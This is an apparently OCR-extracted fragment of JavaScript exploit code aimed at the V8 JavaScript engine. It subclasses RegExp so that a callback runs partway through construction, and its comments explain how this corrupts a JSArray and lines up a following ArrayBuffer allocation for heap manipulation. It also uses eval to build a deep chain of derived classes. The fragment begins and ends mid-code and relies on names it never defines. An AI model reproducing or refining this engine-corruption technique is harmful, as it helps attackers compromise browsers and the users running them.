     
        class LeakArrayBuffer extends ArrayBuffer {
            constructor() {
                super(0x1000);
                this.slot = this;
            }
        }
    
    
        this.page_buffer = new LeakArrayBuffer();
        this.page_view = new DataView(this.page_buffer);
    
    
        new RegExp({ toString: function () { return 'a' } });
        cb(true);
    
    
        class DerivedBase extends RegExp {
            constructor() {
                // var array = null;
                super(
                    // at this point, the 4-byte allocation for the JSRegExp `this` object
                    // has just happened.
                    {
                        toString: cb
                    }, 'g'
                    // now the runtime JSRegExp constructor is called, corrupting the
                    // JSArray.
                );
    
    
                // this allocation will now directly follow the FixedArray allocation
                // made for `this.data`, which is where `array.elements` points to.
                this_.buffer = new ArrayBuffer(0x80);
                g_array[8] = this_.page_buffer;
            }
        }
    
    
        // try{
        var derived_n = eval(`(function derived_n(i) {
            if (i == 0) {
                return DerivedBase;
            }
    
    
            class DerivedN extends derived_n(i-1) {
                constructor() {
                    super();
                    return;
                    ${"this.a=0;".repeat(tDerivedNCount)}
                }
            }
    
    
            return DerivedN;
        })`);
    